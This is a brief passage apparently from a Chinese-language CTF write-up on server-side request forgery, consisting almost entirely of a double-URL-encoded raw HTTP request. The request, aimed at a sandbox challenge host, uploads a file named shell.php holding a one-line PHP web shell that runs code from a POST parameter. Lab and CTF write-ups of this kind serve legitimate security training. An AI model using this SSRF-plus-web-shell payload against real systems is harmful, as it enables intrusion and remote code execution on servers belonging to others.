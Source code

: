 同样bery URL编码2次

```
POST%2520%252Fflag.php%2520HTTP%252F1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%2520327%250D%250ACache-Control%253A%2520max-age%253D0%250D%250AUpgrade-Insecure-Requests%253A%25201%250D%250AOrigin%253A%2520http%253A%252F%252Fchallenge-9e8e6b5360466489.sandbox.ctfhub.com%253A10080%250D%250AContent-Type%253A%2520multipart%252Fform-data%253B%2520boundary%253D----WebKitFormBoundaryC8WybWFRf89XBIAg%250D%250AUser-Agent%253A%2520Mozilla%252F5.0%2520%2528Windows%2520NT%252010.0%253B%2520Win64%253B%2520x64%2529%2520AppleWebKit%252F537.36%2520%2528KHTML%252C%2520like%2520Gecko%2529%2520Chrome%252F89.0.4389.82%2520Safari%252F537.36%250D%250AAccept%253A%2520text%252Fhtml%252Capplication%252Fxhtml%252Bxml%252Capplication%252Fxml%253Bq%253D0.9%252Cimage%252Favif%252Cimage%252Fwebp%252Cimage%252Fapng%252C*%252F*%253Bq%253D0.8%252Capplication%252Fsigned-exchange%253Bv%253Db3%253Bq%253D0.9%250D%250AReferer%253A%2520http%253A%252F%252Fchallenge-9e8e6b5360466489.sandbox.ctfhub.com%253A10080%252F%253Furl%253D127.0.0.1%252Fflag.php%250D%250AAccept-Encoding%253A%2520gzip%252C%2520deflate%250D%250AAccept-Language%253A%2520zh%252Cen-US%253Bq%253D0.9%252Cen%253Bq%253D0.8%252Czh-CN%253Bq%253D0.7%250D%250ACookie%253A%2520UM_distinctid%253D17848606931db4-0733bf671bf2b6-5771133-190140-17848606932a77%250D%250AConnection%253A%2520close%250D%250A%250D%250A------WebKitFormBoundaryC8WybWFRf89XBIAg%250D%250AContent-Disposition%253A%2520form-data%253B%2520name%253D%2522file%2522%253B%2520filename%253D%2522shell.php%2522%250D%250AContent-Type%253A%2520application%252Foctet-stream%250D%250A%250D%250A%253C%253Fphp%2520eval%2528%2540%2524_POST%255B%2527kite%2527%255D%2529%253B%2520%253F%253E%250D%250A------WebKitFormBoundaryC8WybWFRf89XBIAg
```

![](./img/ssrf_upload2.png)
